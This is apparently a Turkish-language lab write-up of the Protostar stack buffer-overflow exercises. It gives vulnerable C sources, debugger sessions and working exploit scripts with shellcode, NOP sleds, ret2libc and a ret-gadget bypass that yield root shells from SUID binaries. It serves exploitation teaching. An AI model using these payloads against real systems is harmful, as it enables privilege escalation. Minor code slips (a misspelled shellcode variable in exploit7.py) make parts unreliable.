










# Giriş

Protostar makinesinin stack sorularında kolaydan zora `stack buffer overflow` zafiyetlerine giriş yapılmış. Makinede ASLR ve NX memory gibi güvenlik önlemleri devre dışı bırakılmış ve bütün binarylere SUID biti atanmış.

### https://exploit-exercises.com/protostar/

İlk olarak makineye ssh bağlantısıyla giriş yapalım, varsayılan kullanıcı adı ve parola user:user.

```bash
$ ssh user@192.168.81.132 # protostar ip
$ /bin/bash
$ cd /opt/protostar/bin
```



###### Makineyi çözmeden önce, sanal bellek kavramı, C'de bellek yönetimi ve debugger kullanımı hakkında önbilgi tavsiye edilir.

# Stack 0

https://exploit-exercises.com/protostar/stack0/

```c
// stack0.c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

int main(int argc, char **argv)
{
    volatile int modified;
    char buffer[64];

    modified = 0;
    gets(buffer);

    if(modified != 0) {
        printf("you have changed the 'modified' variable\n");
    }
    else {
        printf("Try again?\n");
    }
}
```

Bu seviyede bize verilen kodda istenen girdiyle `modified` değişkeninin değerini değiştirmemizi istiyor. `buffer`a herhangi bir girdi uzunluğu kontrolü yapılmadan `gets` ile kullanıcıdan girdi alıyor. Bu da 64 karakterden sonra yazacağımız her girdi başta stackteki diğer `yerel değişkenler` olmak üzere sırasıyla `ebp`, `fonksiyonun geri dönüş adresi` (`ret`) gibi yapılara yazmaya başlayacaktır. Örnek stack yapısı:


##### https://demirten.gitbooks.io/linux-yazilim-guvenligi/content/stack/intro.html

```bash
$ python -c "print 'A' * 64" | ./stack0
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Try again?
```

```bash
$ python -c "print 'A' * 65" | ./stack0
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
you have changed the 'modified' variable
```

64 karakterden sonra stackte `modified` değişkeninin değerine yazmaya başlarız.



# Stack 1

https://exploit-exercises.com/protostar/stack1/

```c
// stack1.c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
    volatile int modified;
    char buffer[64];

    if(argc == 1) {
        errx(1, "please specify an argument\n");
    }

    modified = 0;
    strcpy(buffer, argv[1]);

    if(modified == 0x61626364) {
        printf("you have correctly got the variable to the right value\n");
    }
    else {
        printf("Try again, you got 0x%08x\n", modified);
    }
}
```

Bu seviyede komut satırı, argüman olarak aldığı girdiyi `strcpy` fonksiyonu ile `buffer` değişkenine atıyor. Bizden `buffer`ı taşırarak modified değişkenine 0x61626364 değerini yazmamızı istiyor.

Bizden istediği hexadecimal değerlerin ASCII'deki karşılıklarını bularak elde edebiliriz.

```bash
$ man ascii
```

61 = a, 62 = b, 63 = c, 64 = d

Burada dikkat etmemiz gereken başka bir nokta; makinenin `little endian` olması. Little endian bir yapıda değerler bellekte `byte` seviyesinde, en değerli bit (Most Significant Bit) en sonda olacak şekilde tutulur. Örnek olarak:
`0xDEADBEEF` adresini bellek `"\xEF\xBE\xAD\xDE"` olarak tutar.

```bash
$ user@protostar:/opt/protostar/bin$ ./stack1 $(python -c "print 'A' * 64 + 'a'")
Try again, you got 0x00000061
```

```bash
$ user@protostar:/opt/protostar/bin$ ./stack1 $(python -c "print 'A' * 64 + 'dcba'")
you have correctly got the variable to the right value
```



64 tane A yazıp bufferı taşırdıktak sonra `modified` değişkenine vermek istediğimiz değeri `little endian` a göre yazdık ve başarıyla değişken değerine istenilen `0x61626364` değerini vermiş olduk.

# Stack 2

https://exploit-exercises.com/protostar/stack2/

``` c
// stack2.c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
    volatile int modified;
    char buffer[64];
    char *variable;

    variable = getenv("GREENIE");

    if(variable == NULL) {
        errx(1, "please set the GREENIE environment variable\n");
    }

    modified = 0;

    strcpy(buffer, variable);

    if(modified == 0x0d0a0d0a) {
        printf("you have correctly modified the variable\n");
    }
    else {
        printf("Try again, you got 0x%08x\n", modified);
    }

}
```

Bu seviyede `getenv()` ile `GREENIE` çevre değişkenini alıp 64'lük buffera atıyor. Bizim yapmamız gereken bufferı taşırarak `modified` değişkeninin üzerine `0x0d0a0d0a` değerini yazmak.

0d = \r, 0a = \n

```bash
$ export GREENIE=$(python -c "print 'a' * 64 + '\n\r\n\r'")
$ ./stack2
you have correctly modified the variable
```



# Stack 3

https://exploit-exercises.com/protostar/stack3/

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
    printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
    volatile int (*fp)();
    char buffer[64];

    fp = 0;

    gets(buffer);

    if(fp) {
        printf("calling function pointer, jumping to  0x%08x\n", fp);
        fp();
    }
}
```

Bu seviyede yapmamız gereken `buffer`ı taşırarak `fp` fonksiyon pointerının değerine `win` fonksiyonunun adresini vererek programın akışını değiştirmek.

Bu işleme `win` fonksiyonunun hangi adreste bulunduğunu öğrenerek başlayabiliriz.

```bash
$ objdump -d -M intel ./stack3 | grep -A10 win
08048424 <win>:
 8048424:	55                   	push   ebp
 8048425:	89 e5                	mov    ebp,esp
 8048427:	83 ec 18             	sub    esp,0x18
 804842a:	c7 04 24 40 85 04 08 	mov    DWORD PTR [esp],0x8048540
 8048431:	e8 2a ff ff ff       	call   8048360 <puts@plt>
 8048436:	c9                   	leave  
 8048437:	c3                   	ret    

08048438 <main>:
 8048438:	55                   	push   ebp
```

`08048424` adresinde `win`, `08048438` adresinde `main` fonksiyonu bulunuyor.

Şimdi, bufferı taşırdıktan kaç `byte` sonra `fp` nin değerine yazmaya başladığımızı bulalım.

```bash
$ python -c "print 'A' * 64 + 'BBCCDDEEFFGGHHIIJJ' " | ./stack3
calling function pointer, jumping to 0x43434242
Segmentation fault
```

0x42 = B, 0x43 = C

Görüldüğü gibi 64 bytetan sonra direkt `fp` nin üzerine yazıyoruz.
`win` fonksiyonun adresini `little endian` a göre düzenleyelim. `"\x38\x84\x04\x08"`

```bash
$ python -c "print 'A' * 64 + '\x24\x84\x04\x08'" | ./stack3
calling function pointer, jumping to 0x08048424
code flow successfully changed
```

Kod akışını değiştirip, `win` fonksiyonunu çağırmış olduk.



# Stack 4

https://exploit-exercises.com/protostar/stack4/

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```

Bu seviyede yine bizden `win` fonksiyonunu çağırmamızı istiyor. Bunun için stack üzerinde `gets` fonksiyonu bitimindeki döneceği adresi(bu örnekte `main` de nerede devam edeceği) belirten `ret` in üzerine `win` fonksiyonunun adresini yazmamız gerekiyor.



Resimdeki `stack frame` yapısını incelersek `buffer` ı taşırıp sırasıyla `ebp` ve `return` adresine yazmamız lazım. Tabi `buffer` bitiminden sonra direkt `ebp` ve `return` e yazmaya başlamıyoruz. Compiler versiyonuna veya derlerken verilen optimizasyon `flag`lerine göre aradaki açıklık artabilir.

Return adresine kaç `byte`tan sonra yazmaya başlıyoruz onu bulalım.

```bash
$ cd /tmp/
$ python -c "print 'A' * 64 + 'BBCCDDEEFFGGHHIIJJ'" > st4
$ echo "set disassembly-flavor intel" > ~/.gdbinit # varsayılan at&t
$ cd /opt/protostar/bin
$ gdb -q ./stack4
Reading symbols from /opt/protostar/bin/stack4...done.
(gdb) disas main
Dump of assembler code for function main:
0x08048408 <main+0>:	push   ebp
0x08048409 <main+1>:	mov    ebp,esp
0x0804840b <main+3>:	and    esp,0xfffffff0
0x0804840e <main+6>:	sub    esp,0x50
0x08048411 <main+9>:	lea    eax,[esp+0x10]
0x08048415 <main+13>:	mov    DWORD PTR [esp],eax
0x08048418 <main+16>:	call   0x804830c <gets@plt>
0x0804841d <main+21>:	leave  
0x0804841e <main+22>:	ret    
End of assembler dump.
(gdb) break *0x0804841d
Breakpoint 1 at 0x804841d: file stack4/stack4.c, line 16.
(gdb) run < /tmp/st4
Starting program: /opt/protostar/bin/stack4 < /tmp/st4

Breakpoint 1, main (argc=1, argv=0xbffff864) at stack4/stack4.c:16
16	stack4/stack4.c: No such file or directory.
	in stack4/stack4.c
(gdb) c
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0x49494848 in ?? ()
run < /tmp/st4
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /opt/protostar/bin/stack4 < /tmp/st4

Breakpoint 1, main (argc=19018, argv=0xbffff864) at stack4/stack4.c:16
16	in stack4/stack4.c
(gdb) x/100x $esp
0xbffff760:	0xbffff770	0xb7ec6165	0xbffff778	0xb7eada75
0xbffff770:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff780:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff790:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff7a0:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff7b0:	0x43434242	0x45454444	0x47474646	0x49494848

(gdb) p 0xbffff7bc - 0xbffff7b0
$1 = 12
```
Gördüğümüz gibi 64 + 12 byte dan sonra `ret` in üstüne yazmaya başlıyoruz.

`objdump` ile `win` in adresini bulalım:

``` bash
objdump -M intel -d stack4 | grep -A5 win
080483f4 <win>:
 80483f4:	55                   	push   ebp
 80483f5:	89 e5                	mov    ebp,esp
 80483f7:	83 ec 18             	sub    esp,0x18
 80483fa:	c7 04 24 e0 84 04 08 	mov    DWORD PTR [esp],0x80484e0
 8048401:	e8 26 ff ff ff       	call   804832c <puts@plt>
```

080483f4 = `"\xf4\x83\x04\x08"`

```
$ python -c "print 'A' * 76 + '\xf4\x83\x04\x08'" | ./stack4
code flow successfully changed
Segmentation fault
```

# Stack 5

https://exploit-exercises.com/protostar/stack5/

```bash
ls -l stack5
-rwsr-xr-x 1 root root 22612 Nov 24  2011 stack5
# suid biti atanmış
```

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```

Bu seviyede bizden stackteki `buffer overflow` zafiyetini sömürerek `shellcode` çalıştırmamızı istiyor. Yapmamız gereken  `return` adresini manipüle ederek kod akışını `stack`e yerleştireceğimiz `shellcode` un başlangıç adresine yönlendireceğiz.

Amaç doğrultusunda istenilen bir `shellcode` kullanabiliriz. Biz `execve` sistem çağrısı aracılığıyla `bash` processini oluşturacağız.(`bash` e vereceğimiz `-p` argümanı ile suid biti atanmış dosyanın `euid` sini `execve` ile açtığımız `bash` processinde de kullanabileceğiz). `stack5` dosyasında suid biti atanmış olduğu için shellde root haklarıyla komut çalıştırabileceğiz.

```bash
$ man syscall
$ man execve
$ bash -c "help set"
```

```c
#include <stdio.h>
#include <unistd.h>

int main(void) {
	char *f = "/bin/bash";
	execve(f, NULL, NULL);
	return 0;
}
```
Shellcode olarak [bunu](http://shell-storm.org/shellcode/files/shellcode-606.php) kullanacağız:

`"\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80"`

`return` e (EIP) kaç byte sonra yazmaya başladığımızı bulalım:

```bash
$ gdb -q ./stack5
Reading symbols from /opt/protostar/bin/stack5...done.
(gdb) disas main
Dump of assembler code for function main:
0x080483c4 <main+0>:	push   ebp
0x080483c5 <main+1>:	mov    ebp,esp
0x080483c7 <main+3>:	and    esp,0xfffffff0
0x080483ca <main+6>:	sub    esp,0x50
0x080483cd <main+9>:	lea    eax,[esp+0x10]
0x080483d1 <main+13>:	mov    DWORD PTR [esp],eax
0x080483d4 <main+16>:	call   0x80482e8 <gets@plt>
0x080483d9 <main+21>:	leave  
0x080483da <main+22>:	ret    
End of assembler dump.
(gdb) b *0x080483d9
Breakpoint 1 at 0x80483d9: file stack5/stack5.c, line 11.
(gdb) run < /tmp/st4
Starting program: /opt/protostar/bin/stack5 < /tmp/st4

Breakpoint 1, main (argc=19018, argv=0xbffff864) at stack5/stack5.c:11
11	stack5/stack5.c: No such file or directory.
	in stack5/stack5.c
(gdb) c
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0x49494848 in ?? () #
(gdb) run < /tmp/st4
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /opt/protostar/bin/stack5 < /tmp/st4

Breakpoint 1, main (argc=19018, argv=0xbffff864) at stack5/stack5.c:11
11	in stack5/stack5.c
(gdb) x/100x $esp
0xbffff760:	0xbffff770	0xb7ec6165	0xbffff778	0xb7eada75
0xbffff770:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff780:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff790:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff7a0:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff7b0:	0x43434242	0x45454444	0x47474646	0x49494848
0xbffff7c0:	0x00004a4a	0xbffff864	0xbffff86c	0xb7fe1848
0xbffff7d0:	0xbffff820	0xffffffff	0xb7ffeff4	0x08048232
0xbffff7e0:	0x00000001	0xbffff820	0xb7ff0626	0xb7fffab0
0xbffff7f0:	0xb7fe1b28	0xb7fd7ff4	0x00000000	0x00000000
0xbffff800:	0xbffff838	0x2315bcc1	0x09424ad1	0x00000000
0xbffff810:	0x00000000	0x00000000	0x00000001	0x08048310
0xbffff820:	0x00000000	0xb7ff6210	0xb7eadb9b	0xb7ffeff4
0xbffff830:	0x00000001	0x08048310	0x00000000	0x08048331
...
(gdb) p 0xbffff7bc - 0xbffff7b0
$1 = 12
```

64 + 12'den sonra `ret`e yazıyoruz. Yapmamız gereken:

`76byte_çöp_değer + shellcode_adresi + shellcode`

Stackte bulunan adresler `çevre değişkenleri` gibi etkenler yüzünden değişeceği için `shellcode_adresi`ni sağlama almak adına kodda herhangi bir etkisi olmayacak belirli bir sayıda `\x90` `NOP(no operation)` instructionu kullanarak işimizi sağlama alabiliriz. Payloadımızın yeni hali:

`76byte_çöp_değer + shellcode_adresi + 100 NOP + shellcode`

```python
# exploit5.py
cop_deger = "A" * 76
shellcode_adresi = "\xEF\xBE\xAD\xDE" # geçici
NOP_sled = "\x90" * 100
shellcode = "\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80"

print cop_deger + shellcode_adresi + NOP_sled + shellcode
```

```bash
python exploit5.py > exploit5
```

Shellcode adresini bulalım:

```bash
gdb -q ./stack5
Reading symbols from /opt/protostar/bin/stack5...done.
(gdb) disas main
Dump of assembler code for function main:
0x080483c4 <main+0>:	push   ebp
0x080483c5 <main+1>:	mov    ebp,esp
0x080483c7 <main+3>:	and    esp,0xfffffff0
0x080483ca <main+6>:	sub    esp,0x50
0x080483cd <main+9>:	lea    eax,[esp+0x10]
0x080483d1 <main+13>:	mov    DWORD PTR [esp],eax
0x080483d4 <main+16>:	call   0x80482e8 <gets@plt>
0x080483d9 <main+21>:	leave  
0x080483da <main+22>:	ret    
End of assembler dump.
(gdb) break *0x080483d9
Breakpoint 1 at 0x80483d9: file stack5/stack5.c, line 11.
(gdb) run < /tmp/exploit5
exploit5     exploit5.py  
(gdb) run < /tmp/exploit5
Starting program: /opt/protostar/bin/stack5 < /tmp/exploit5

Breakpoint 1, main (argc=-1869574000, argv=0x90909090) at stack5/stack5.c:11
11	stack5/stack5.c: No such file or directory.
	in stack5/stack5.c
(gdb) x/200x $esp
0xbffff760:	0xbffff770	0xb7ec6165	0xbffff778	0xb7eada75
0xbffff770:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff780:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff790:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff7a0:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff7b0:	0x41414141	0x41414141	0x41414141	0xdeadbeef
0xbffff7c0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7d0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7e0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7f0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff800:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff810:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff820:	0x90909090	0x99580b6a	0x2d686652	0x52e18970
0xbffff830:	0x2f68686a	0x68736162	0x6e69622f	0x5152e389
0xbffff840:	0xcde18953	0x00000080	0xbffff864	0x080483f0
0xbffff850:	0x080483e0	0xb7ff1040	0xbffff85c	0xb7fff8f8
```

Shellcode adresi olarak nopların ortasından `0xbffff7f0` gibi bir adres alabiliriz
`\xf0\xf7\xff\xbf`

```python
# exploit5.py final
garbage = "A" * 76
shellcode_adresi = "\xf0\xf7\xff\xbf"
NOP_sled = "\x90" * 100
shellcode = "\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80"

print garbage + shellcode_adresi + NOP_sled + shellcode
```

```bash
python exploit5.py > exploit5
```

```bash
cat exploit5 - | /opt/protostar/bin/stack
```

```bash
$ user@protostar:/opt/protostar/bin$ cat /tmp/exploit5 - | ./stack5
whoami
root
```



# Stack 6

https://exploit-exercises.com/protostar/stack6/

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void getpath()
{
    char buffer[64];
    unsigned int ret;

    printf("input path please: "); fflush(stdout);

    gets(buffer);

    ret = __builtin_return_address(0);

    if((ret & 0xbf000000) == 0xbf000000) {
    printf("bzzzt (%p)\n", ret);
    _exit(1);
    }

    printf("got path %s\n", buffer);
}

int main(int argc, char **argv)
{
    getpath();
}
```

Bu seviyede önceki seviyeden farklı olarak `__builtin_return_address` fonksiyonuyla `return` adresini kontrol ediyor. `return` adresi 0xbf ile başlıyorsa, `exit` ile programdan çıkıyor.
0xbf ile başlayan adresler hatırlayacak olursak stackteki adreslerdi.

Teyit edecek olursak:

```bash
$ gdb -q ./stack6
Reading symbols from /opt/protostar/bin/stack6...done.
(gdb) break main
Breakpoint 1 at 0x8048500: file stack6/stack6.c, line 27.
(gdb) run
Starting program: /opt/protostar/bin/stack6

Breakpoint 1, main (argc=1, argv=0xbffff864) at stack6/stack6.c:27
27	stack6/stack6.c: No such file or directory.
	in stack6/stack6.c
(gdb) info proc map
process 5445
cmdline = '/opt/protostar/bin/stack6'
cwd = '/opt/protostar/bin'
exe = '/opt/protostar/bin/stack6'
Mapped address spaces:

	Start Addr   End Addr       Size     Offset objfile
	 0x8048000  0x8049000     0x1000          0        /opt/protostar/bin/stack6
	 0x8049000  0x804a000     0x1000          0        /opt/protostar/bin/stack6
	0xb7e96000 0xb7e97000     0x1000          0        
	0xb7e97000 0xb7fd5000   0x13e000          0         /lib/libc-2.11.2.so # libc başlangıç adresi
	0xb7fd5000 0xb7fd6000     0x1000   0x13e000         /lib/libc-2.11.2.so
	0xb7fd6000 0xb7fd8000     0x2000   0x13e000         /lib/libc-2.11.2.so
	0xb7fd8000 0xb7fd9000     0x1000   0x140000         /lib/libc-2.11.2.so
	0xb7fd9000 0xb7fdc000     0x3000          0        
	0xb7fe0000 0xb7fe2000     0x2000          0        
	0xb7fe2000 0xb7fe3000     0x1000          0           [vdso]
	0xb7fe3000 0xb7ffe000    0x1b000          0         /lib/ld-2.11.2.so
	0xb7ffe000 0xb7fff000     0x1000    0x1a000         /lib/ld-2.11.2.so
	0xb7fff000 0xb8000000     0x1000    0x1b000         /lib/ld-2.11.2.so
	0xbffeb000 0xc0000000    0x15000          0           [stack]
(gdb)
```

Stackin adres aralığı: 0xbffeb000 - 0xc0000000. Bir önceki yöntem burada işe yaramayacaktır. Soruda bize verilen ipucu, `ret2libc` yöntemini kullanmamız. Yöntemi araştırdığımızda ise `libc`deki fonksiyonların adreslerinin daimi sabit olduğunu öğreniyoruz. Yani, biz kod akışını `libc`'deki bir fonksiyona yönlendirebiliriz. İşimize yarayabilecek fonksiyonlardan biri `system` fonksiyonu.

###### https://www.shellblade.net/files/docs/ret2libc.pdf

```bash
man system
```

`system`in hangi adreste bulunduğunu bulalım:

```bash
$ gdb -q ./stack6
Reading symbols from /opt/protostar/bin/stack6...done.
(gdb) break main
Breakpoint 1 at 0x8048500: file stack6/stack6.c, line 27.
(gdb) r
Starting program: /opt/protostar/bin/stack6

Breakpoint 1, main (argc=1, argv=0xbffff864) at stack6/stack6.c:27
27	stack6/stack6.c: No such file or directory.
	in stack6/stack6.c
(gdb) p system
$1 = {<text variable, no debug info>} 0xb7ecffb0 <__libc_system>
```

`system` 0xb7ecffb0 adresinde bulunuyormuş.

`system`e argüman olarak vereceğimiz `"/bin/sh"`ın libcdeki konumunu bulalım:

```bash
$ strings -a -t x /lib/libc-2.11.2.so | grep "/bin/sh"
    11f3bf /bin/sh

$ gdb -q
p/x 0xb7e97000 + 0x11f3bf
$1 = 0xb7fb63bf
# 0xb7e97000 libc başlangıç adresi
```

`system` = 0xb7ecffb0

`"/bin/sh"` = 0xb7fb63bf

```python
# exploit6.py
garbage = "A" * 80
system = "\xb0\xff\xec\xb7"
return_after_system = "\xEF\xBE\xAD\xDE"
# Fonksiyonun işi bitince döneceği yer önemsiz. Amacımız: shell almak.
bin_sh = "\xbf\x63\xfb\xb7"
print garbage + system + return_after_system + bin_sh
```

```bash
python exploit6.py > exploit6
```

```bash
cat /tmp/exploit6 - |  ./stack6
id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)
```

# Stack 7

https://exploit-exercises.com/protostar/stack7/

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

char *getpath()
{
    char buffer[64];
    unsigned int ret;

    printf("input path please: "); fflush(stdout);

    gets(buffer);

    ret = __builtin_return_address(0);

    if((ret & 0xb0000000) == 0xb0000000) {
        printf("bzzzt (%p)\n", ret);
        _exit(1);
    }

    printf("got path %s\n", buffer);
    return strdup(buffer);
}

int main(int argc, char **argv)
{
    getpath();
}
```

Bu seviyede, eğer `return` adresi 0xb ile başlıyorsa direkt programdan çıkıyor. Soruda ipucu olarak `.text` segmentini kullanarak bu durumu aşabileceğimizi söylüyor.



`.text` segmenti `read-only`dir ve program kodlarının bulunduğu segmenttir. Aynı zamanda yukarıdaki resimde gösterildiği gibi en düşük adrese sahiptir. Bizim engeli aşmamız için `return`de kod akışını `.text`e yönlendirmemiz yeterli.

Bunun için kod akışını `.text` segmentinden herhangi bir `ret`e yönlendirirsek shellcodu başarılı bir şekilde çalıştırabiliriz.

```bash
$ objdump -M intel -d stack7 | grep ret
 8048383:	c3                   	ret    
 8048494:	c3                   	ret    
 80484c2:	c3                   	ret    
 8048544:	c3                   	ret    
 8048553:	c3                   	ret    
 8048564:	c3                   	ret    
 80485c9:	c3                   	ret    
 80485cd:	c3                   	ret    
 80485f9:	c3                   	ret    
 8048617:	c3                   	ret
```

```python
# exploit7.py
shelllcode = "\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80"
garbage = "A" * 80
eip = "\xf9\x85\x04\x08" # .text segmentinden bir return text e selam verip geri geliyoruz stack e
shellcode_addrr = "\xec\xf7\xff\xbf"
nop = "\x90" * 100

print garbage + eip + shellcode_addrr + nop + shellcode
```

```bash
python exploit7.py > exploit7
```

```
cat /tmp/exploit7 - | ./stack7
$ id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)
```


